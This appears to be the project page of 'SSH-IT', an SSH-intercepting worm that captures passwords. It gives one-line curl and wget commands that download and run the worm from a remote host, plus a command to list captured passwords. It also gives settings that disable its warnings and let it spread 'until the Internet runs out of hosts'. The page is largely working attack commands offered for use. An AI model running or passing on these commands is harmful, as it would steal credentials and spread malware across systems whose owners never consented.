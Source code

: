 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```
~/.prng/thc_ctl -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```
~/.prng/thc_ctl -r uninstall
```

### ALPHA TESTING

This is ALPHA STAGE. DO NOT SHARE.
If you know about this then consider yourself special. Join us on [Telegram](https://t.me/thcorg).

ALPHA DEFAULT SETTINGS:
* ```THC_VERBOSE=1``` You will see a warning when *ssh* is being intercepted.
* ```THC_DEPTH=2``` The worm will stop spreading 2 hops from the host where it got deployed.

{:refdef: style="text-align: center;"}
![Verbose-Example](verbose-example.png)
{: refdef}

Take off all safety and run SSH-IT in release mode (*with no warnings*):
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

Or go bonkers and let the worm run until the Internet runs out of hosts:
```shell
THC_DEPTH=9999 THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


